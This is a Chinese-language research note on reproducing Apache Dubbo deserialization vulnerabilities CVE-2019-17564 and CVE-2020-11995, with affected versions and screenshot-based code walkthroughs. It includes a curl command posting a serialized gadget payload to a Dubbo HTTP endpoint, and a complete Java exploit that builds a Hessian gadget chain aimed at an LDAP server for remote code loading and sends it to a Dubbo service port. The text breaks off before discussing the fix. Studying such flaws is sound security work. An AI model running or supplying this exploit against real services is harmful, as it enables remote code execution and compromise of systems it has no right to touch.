首先先下载`zookeeper`,`3.1.14`版本最好,其他版本环境老是出问题

## 源码解析

https://www.anquanke.com/post/id/197658#h3-3

## CVE-2019-17564

https://y4er.com/post/apache-dubbo-cve-2019-17564/

> 2.7.0 <= Apache Dubbo <= 2.7.4
>
> 2.6.0 <= Apache Dubbo <= 2.6.7
>
> Apache Dubbo = 2.5.x

发送payload:

```cmd
curl -XPOST --data-binary @CC4.ser http://192.168.182.1:8080/org.apache.dubbo.samples.http.api.DemoService
```

## CVE-2020-11995

CVE-2020-1948的绕过

漏洞复现了好久都没有成功,最后看的这一篇

https://www.bbsmax.com/A/obzbQZDbdE/

https://www.anquanke.com/post/id/209251

```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

这里用了@service暴露服务



让我们的客户端可以调用该对象



直接对服务端口发送数据进行攻击

```java
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

import marshalsec.HessianBase;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;

public class GadgetsTestHessian {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:8087/ExecTest");
        rs.setMatchColumn("foo");
        Reflections.setFieldValue(rs, "listeners",null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 0x20 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(hessian2ByteArrayOutputStream);
        HessianBase.NoWriteReplaceSerializerFactory sf = new HessianBase.NoWriteReplaceSerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);

        out.writeObject(s);

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```


我自己看到过两款`payload`,



对应的触发点不一样,

当为`((byte)0x80|0x20|2)`时,



会进入这一步,把Event设置为`true`



经过如下调用调用`readMap`函数




这里他只会反序列化下一个写入的数据,所以要在out后面直接将我们`map` write进去



不过这里没有过也没有关系,后面会进入到别的线程,这里读取需要反序列化的类名称,路径,方法名等等,然后在后面进行反序列化,这算是网上见到的最多的一种了,不过这里可以直接通过`readUTF`反序列化`Map`



在`readString`中调用了`int tag = this.read();`来获取类型(或者说字符串的长度?),这里读取到的是`72`,也就是为`map`时的标志,然后调用了`expect`方法







然后到了`2.7.9`版本,通过`((byte)0x80|0x20|2)`的方法把Event设置为`true`不能使用



然后再看看对于`CVE-2020-11995`是如何进行修复的

